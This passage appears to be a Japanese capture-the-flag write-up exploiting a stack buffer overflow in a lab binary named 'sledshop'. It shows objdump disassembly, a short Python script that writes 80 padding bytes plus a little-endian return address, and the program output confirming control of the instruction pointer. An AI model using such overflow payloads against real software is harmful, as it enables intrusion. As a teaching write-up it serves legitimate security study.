 `objdump -d -M intel ./sledshop shop_list`を実行して`shop_list()`を呼んでいるアドレス「`0x804862d`」にリターンすることを決定。
というのもshop_list呼ぶところに戻ればリストが二回表示されて分かりやすいから。


```bash-statement
08048617 <main>:
 8048617:       8d 4c 24 04             lea    ecx,[esp+0x4]
 804861b:       83 e4 f0                and    esp,0xfffffff0
 804861e:       ff 71 fc                push   DWORD PTR [ecx-0x4]
 8048621:       55                      push   ebp
 8048622:       89 e5                   mov    ebp,esp
 8048624:       51                      push   ecx
 8048625:       83 ec 04                sub    esp,0x4
 8048628:       e8 fe fe ff ff          call   804852b <shop_setup>
 804862d:       e8 31 ff ff ff          call   8048563 <shop_list>
 8048632:       e8 85 ff ff ff          call   80485bc <shop_order>
 8048637:       b8 00 00 00 00          mov    eax,0x0
 804863c:       83 c4 04                add    esp,0x4
```


1. オーバフロー用の文字列を吐き出す`make_string001.py`を作成
2. `make_string001.py`の実行結果をexploit001.txtに出力
3. `cat exploit001.txt | ./sledshop` を実行

で見事リストが二回表示されることを確認できた。
これでIP (Instruction Pointer)はゲット。

```python:make_string001.py
import sys

sys.stdout.buffer.write(b"A" * 80 + b"\x2d\x86\x04\x08EFGHIJ\n")
```

```bash-statement
$ python make_string001.py > exploit001.txt
```

```bash-statement
$ cat exploit001.txt | ./sledshop
The following products are available:
|  Saucer  | $1 |
| Kicksled | $2 |
| Airboard | $3 |
| Toboggan | $4 |
Which product would you like?
Sorry, we are closed.
The following products are available:
|  Saucer  | $1 |
| Kicksled | $2 |
| Airboard | $3 |
| Toboggan | $4 |
Which product would you like?
Sorry, we don't currently have the product AAAAAAAAAAAA▒▒▒▒▒(▒▒AAAAAAAAk▒▒ in stock. Try again later!
Segmentation fault (core dumped)
$
```
